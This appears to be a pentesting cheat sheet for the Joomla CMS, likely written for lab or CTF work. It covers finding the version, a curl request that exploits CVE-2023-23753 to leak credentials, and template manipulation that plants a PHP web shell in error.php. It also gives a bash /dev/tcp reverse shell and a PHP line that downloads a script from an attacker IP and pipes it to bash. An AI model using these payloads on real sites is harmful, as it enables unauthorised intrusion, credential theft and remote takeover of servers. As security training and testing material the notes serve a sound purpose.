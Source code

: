 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
<mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

<mark style="color:orange;">**`Recommended`**</mark><mark style="color:purple;">: Use the admin interface or the</mark> <mark style="color:orange;">**`Joomla\CMS\Version`**</mark> <mark style="color:purple;">class programmatically.</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Template Manipulation</mark>

* <mark style="color:purple;">Navigate to</mark> <mark style="color:orange;">**`site templates`**</mark>
* <mark style="color:purple;">Look for writable files (Normally</mark> <mark style="color:orange;">**`error.php`**</mark> <mark style="color:purple;">is a good one to look at)</mark>
* <mark style="color:purple;">Add this code at the beginning of the file:</mark>

{% code overflow="wrap" %}
```php
if (isset($_REQUEST['tokyo'])) {
  system($_REQUEST['tokyo']);
  die();
}
```
{% endcode %}

* <mark style="color:purple;">Visiting a page that doesn't exist will raise a error page, if the argument passed is</mark> <mark style="color:orange;">**`tokyo`**</mark><mark style="color:purple;">, it will be run with</mark> <mark style="color:orange;">**`system`**</mark> <mark style="color:purple;">; allowing to code execution:</mark>

```url
/nonexistentsite?tokyo=id
```

* <mark style="color:purple;">From here you can spawn a</mark> <mark style="color:orange;">**`reverse shell`**</mark> <mark style="color:purple;">by passing it as an argument:</mark>

```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.6/4444+0>%261'
```

***

* <mark style="color:purple;">Alternatively, you can write the reverse shell directly on the template:</mark>

```php
<?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>
```

* <mark style="color:purple;">Then, create</mark> <mark style="color:orange;">**`rev.sh`**</mark>&#x20;

{% code overflow="wrap" %}
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```
{% endcode %}

* <mark style="color:purple;">Setup a python web server, get your listener ready and trigger the</mark> <mark style="color:orange;">**`error.php`**</mark>
{% endhint %}

